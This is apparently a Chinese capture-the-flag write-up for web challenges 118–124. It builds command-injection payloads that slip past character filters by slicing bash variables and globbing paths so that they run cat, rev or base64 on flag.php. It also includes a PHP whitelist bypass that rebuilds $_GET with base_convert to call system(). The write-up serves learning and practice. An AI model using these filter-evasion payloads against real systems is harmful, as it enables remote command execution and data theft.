### web118

开启容器

代码审计



有一个`<!-- system($code);-->`

```
$PWD和${PWD}    表示当前所在的目录	/var/www/html
${#PWD}         13		前面加个#表示当前目录字符串长度
${PWD:3}        r/www/html	代表从第几位开始截取到后面的所有字符（从零开始）
${PWD:~3}    	html	代表从最后面开始向前截取几位（从零开始）
${PWD:3:1}     	r
${PWD:~3:1} 	h
${PWD:~A}		l	这里的A其实就是表示1
${SHLVL:~A} 	1	代表数字1
```

`code=${PATH:~A}${PWD:~A} ????.???`
`nl ????.???`


### web119

开启容器

一样的前端



`code=${PATH:~A}${PWD:~A} ????.???`
`nl ????.???`



无法成功

```
${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???

就是/???/??t ????.???

就是/bin/cat flag.php

```



罗列可疑代替

- 0：可以用字符代替；
- 1：`${#SHLVL}=1`，或者`${##}`、`${#?}`。
- 2：用 wappalyzer 插件可以看到 php 的版本是 7.3.22，所以 2 可以用`${PHP_VERSION:~A}`代替。
- 3：`${#IFS}`=3。（linux 下是 3，mac 里是 4）
- 4 或者 5：`${#RANDOM}`返回的值大多数是 4 和 5，其中 5 的概率多一些。（linux 下）
- `${PWD}` ：/var/www/html
- `${USER}` ：www-data
- `${HOME}` ：当前用户的主目录

开始构造：可以构造一下/bin/cat

- `/`：`${PWD::${#SHLVL}}`
- `a`：`${USER:~A}`
- `t`：`${USER:~${#SHLVL}:${#SHLVL}}`

**payload1**：构造`/???/?a? ????.???`

`code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???`


**payload2**：构造`/???/??t ????.???`
`code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}??${USER:~${#SHLVL}:${#SHLVL}} ????.???`



### web120

开启容器

代码审计



上题 payload1
`code=${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???`
符合条件


### web121

开启容器

代码审计



留了个 PWD，这里`~`也被过滤了，只能正向找字符构造了。

PWD：/var/www/html
现有能用的数字有 0，1，3，4、5。（具体可以看一下 web119）  
由于 SHLVL 被过滤了，那么可以用`${#?}`或者`${##}`代替 1。

这次可以用`/bin/rev`读取，rev 命令可以实现文件文本行,或字符串的反序显示。那么需要获取`/`和`r`字符，或者  `v`。

构造/???/??v：  
`code=${PWD::${#?}}???${PWD::${#?}}??${PWD:${#?}:${#?}} ????.???`  
构造/???/r??：  
`code=${PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.???`



输出反序 flag


### web122

开启容器

代码审计



这次 PWD 被过滤了，但是 HOME 可以用了。

这次可以用命令`/bin/base64`。因为，`${RANDOM}`可以出现 4 或 5，可以构造`/???/?????4`。需要多试几次才能拿到 flag。

payload：`code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???`



刷了好几次



### web124

开启容器

代码审计



绕过
我们想要让他执行命令，如 system($cmd)。为了绕过对字符的限制，可以用 get 或 post 再次传参，用白名单的字符串作为参数名。

我们需要两个参数，一个传递函数名，一个传递函数参数值。（这里选择\_GET，因为长度短，题目中有长度限制）  
`$_GET[abs]($_GET[acos]);`  
也就是`c=$_GET[abs]($_GET[acos]);&abs=system&acos=ls`
黑名单有中括号，可以用大括号`{}`代替`c=$_GET{abs}($_GET{acos});&abs=system&acos=ls`

构造`_GET`。因为白名单的限制，`_GET`不能直接用，需要构造。  
`_GET`转成十六进制是 0x5f474554，由十六进制转为十进制 1598506324。

可以利用数学函数，由十进制转成字符。这需要用到两个函数 dechex()、hex2bin()。  
`_GET`=`hex2bin(dechex(1598506324))`

> dechex()：十进制转十六进制  
>  hex2bin()：十六进制转二进制，返回 ASCII 字符

但是第二个函数 hex2bin，白名单里没有，不过白名单里有一个 base_convert。

> base_convert(number,frombase,tobase)：可以在任意进制之间转换数字

`base_convert('hex2bin',36,10)`=>37907361743  
`base_convert(37907361743,10,36)`=>hex2bin

> 这里 base_convert 为什么写 36 进制，是因为数字一共 10 个，字母（不区分大小写）一共 26 个，为了能把所有字符都表示进来，就是 10+26=36。

所以`_GET`=`base_convert(37907361743,10,36)(dechex(1598506324))`

设置一个变量等于\_GET，挑一个白名单里最短的 pi 作为变量名：`$pi=base_convert(37907361743,10,36)(dechex(1598506324))`,之后引用`$pi`即可

payload：`c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=cat flag.php`


